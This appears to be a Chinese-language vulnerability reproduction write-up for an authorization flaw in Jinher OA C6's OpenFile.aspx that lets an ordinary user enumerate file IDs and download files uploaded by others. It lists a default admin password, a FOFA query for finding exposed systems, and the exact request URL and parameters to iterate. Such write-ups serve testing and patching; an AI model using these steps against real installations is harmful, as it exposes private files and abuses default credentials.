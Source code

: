 # 金和OA C6 OpenFile.aspx 后台越权敏感文件遍历漏洞

## 漏洞描述

金和OA C6 存在后台越权敏感文件遍历漏洞，普通用户通过遍历特殊参数可以获取其他用户上传的敏感文件

## 漏洞影响

<a-checkbox checked>金和OA C6</a-checkbox></br>

## FOFA

<a-checkbox checked>app="Jinher-OA"</a-checkbox></br>

## 漏洞复现

默认用户口令：admin/000000

登录后点击信息交流，发起协同页面

![img](../../../.vuepress/public/img/jh-5.png)



上传附件并上传发送给目标，这里登录权限为管理员，我们自己发给自己就好，前文只是展现漏洞挖掘思路过程

![img](../../../.vuepress/public/img/jh-6.png)



成功收到上传的附件

![img](../../../.vuepress/public/img/jh-7.png)



点击查看时抓包，发现一个带有文件ID的请求包



![img](../../../.vuepress/public/img/jh-8.png)



返回了几个参数

```plain
var strFilePath = '../Resource/slaves/1/8b473ecb-7b39-4384-ada2-b0ec72c4f6ed.png';
var strFileType = 'png';
var strSid='3jvpvhs410m2wdbbficax5q5';
var strFileIDCode='us9w7xWE7do=';
var strId = '1229';
var strTxtReg = 'txt,ini,xml,config,htm,html,js,css,asp,aspx,jsp,cs,sql,inf,htc,log';
var strImgReg = 'jpg,gif,jpeg,png,ico';
var MD = '';
```

其中我们注意到 strFilePath 为文件的存储地址，我们更改 id参数为另一个值，且测试后发现 name文件名参数无关紧要

![img](../../../.vuepress/public/img/jh-9.png)



更改ID后发送请求包发现获得另一个文件的信息

访问Url，注意 **type参数**  需要为正确的文件后缀才可以访问

```plain
http://xxx.xxx.xxx.xxx/C6/control/OpenFile.aspx?id=1200&name=&type=pdf
```

![img](../../../.vuepress/public/img/jh-10.png)



这里更换一个普通用户测试是否可行，尝试遍历 id

![img](../../../.vuepress/public/img/jh-12.png)



![img](../../../.vuepress/public/img/jh-11.png)



存在 **strFilePath参数** 则是存在文件，为空则是文件已经不存在

同时抓包下载文件页面也可以看到可获取的参数

**FileID 与 FileIDCode**



![img](../../../.vuepress/public/img/jh-13.png)



于是只需要通过刚刚的ID遍历，获取两个关键参数就能下载其他人发送的敏感文件，且只需要普通用户权限